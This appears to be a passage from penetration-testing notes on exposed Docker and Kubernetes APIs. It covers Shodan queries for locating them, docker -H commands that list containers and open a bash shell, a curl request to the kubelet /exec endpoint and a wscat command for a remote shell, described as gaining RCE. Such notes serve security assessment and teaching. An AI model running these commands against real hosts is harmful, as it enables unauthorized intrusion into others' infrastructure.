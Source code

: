 #### Exposed Docker API

Shodan search for docker API:

* product:docker

Make a GET request to the /version endpoint To confirm that a desired host is running Docker and it will print out a json blob.

Once you have confirmed that a docker API is exposed I will generally move to the CLI version of docker and can execute the following commands:

```bash
# Docker list containers in a remote host
docker -H <host>:<port> ps
# Docker executes a shell command
Docker -H <host>:<port> exec -it <container name> /bin/bash
```

## <mark style="color:yellow;">Kubernetes API</mark>

Kubernetes is an open-source container-orchestration system for automating application deployment, scaling, and management.

#### Exposed Kubernetes API

Kubernetes exposes an unauthenticated REST API on port 10250, If developers aren’t careful this API can be exposed to the internet.

Shodan search for Kubernetes API:

* product:"Kubernetes"

Once a Kubernetes service is detected the first thing to do is to get a list of pods by sending a GET request to the /pods endpoint:&#x20;

* from the response, we get the namespace name, pod name, and container name.
* with this information, we can Initiate a WebSocket connection to Kubernetes API using the following get request and the response indicates if it was successful and a web socket connect was created:

```bash
curl –insecure -v -H “X-Stream-Protocol-Version: v2.channel.k8s.io” -H “XStream-Protocol-Version: channel.k8s.io” -H “Connection: upgrade” -H 
“Upgrade: SPDY/3.1” -X POST 
“https://<DOMAIN>:<PORT>/exec/<NAMESPACE>/<POD 
NAME>/<CONTAINER NAME>?command=<COMMAND TO 
EXECUTE>&input=1&output=1&tty=1”
```

To handle web socket connections, use the wscat tool:

```bash
# Installation
apt-get install node-ws
# Kubernetes remote shell creation to gain RCE on a remote container
wscat -c “https://<DOMAIN>:<PORT>/<Location Header Value>” –no-check
```
